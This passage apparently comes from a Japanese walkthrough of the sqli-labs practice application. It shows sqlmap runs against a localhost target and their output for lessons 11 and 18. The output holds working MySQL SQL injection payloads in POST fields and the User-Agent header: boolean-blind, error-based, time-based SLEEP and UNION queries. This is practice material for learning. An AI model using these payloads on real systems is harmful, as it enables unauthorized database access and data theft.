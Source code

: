 <div class="md-code" style="width:100%">
```
$ python2.6 sqlmap.py -u "http://127.0.0.1/sqli-labs/Less-11/" --data="uname=Dumb&passwd=Dumb&submit=Submit" --dbms MySQL

---
Parameter: passwd (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: uname=Dumb&passwd=Dumb' AND 7224=7224 AND 'XczC'='XczC&submit=Submit

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: uname=Dumb&passwd=Dumb' AND (SELECT 5640 FROM(SELECT COUNT(*),CONCAT(0x7176767171,(SELECT (ELT(5640=5640,1))),0x716b627671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'iIig'='iIig&submit=Submit

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: uname=Dumb&passwd=Dumb' AND SLEEP(5) AND 'nfze'='nfze&submit=Submit

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: uname=Dumb&passwd=-3874' UNION ALL SELECT CONCAT(0x7176767171,0x59794449726d6876654c757179796c4d50685572796a746d796a6c747a756a4c4b5073507a595746,0x716b627671),NULL-- LzoO&submit=Submit

Parameter: uname (POST)
    Type: boolean-based blind

（以下省略）
---
```
</div>

　網羅するのも大変ですので、気になるタイトルのものに手をつけてみます。

### Less-18 (POST - Header Injection - Uagent field - Error based)

<div class="md-code" style="width:100%">
```
$ python2.6 sqlmap.py -u "http://127.0.0.1/sqli-labs/Less-18/index.php" --data="uname=Dumb&passwd=Dumb&submit=Submit" --headers="User-Agent:Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.81 Safari/537.36" --dbms MySQL --level 3

---
Parameter: User-Agent (User-Agent)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.81 Safari/537.36' AND (SELECT 8176 FROM(SELECT COUNT(*),CONCAT(0x7171717171,(SELECT (ELT(8176=8176,1))),0x71707a6b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'canv'='canv

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.81 Safari/537.36' OR SLEEP(5) AND 'emKT'='emKT
---
```
</div>
